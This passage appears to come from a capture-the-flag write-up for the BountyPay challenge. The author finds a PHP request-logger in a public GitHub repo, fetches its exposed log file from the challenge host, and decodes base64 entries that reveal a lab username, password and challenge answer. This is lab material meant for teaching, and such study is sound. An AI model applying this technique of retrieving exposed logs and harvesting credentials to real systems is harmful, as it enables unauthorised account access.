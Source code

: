 Ok, so all we need from this is the GitHub repo itself.  I've checked this repo (including commit history) and the parent organization, but the only valuable piece of information was [logger.php](https://github.com/bounty-pay-code/request-logger/blob/master/logger.php) file:
```php
<?php

$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);

file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```

My first thought was the access `/logger.php` endpoint, but that didn't exist. I then tried accessing `/bp_web_trace.log` and that worked!

```http
GET /bp_web_trace.log HTTP/1.1
Host: app.bountypay.h1ctf.com
```

```http
HTTP/1.1 200 OK

1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```

I also tried checking both `/logger.php` and `/bp_web_trace.log`on the other subdomains, just in case similar code was deployed there as well, but that didn't work.

Decoding the base64-encoded log entries gives us:

```json
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```
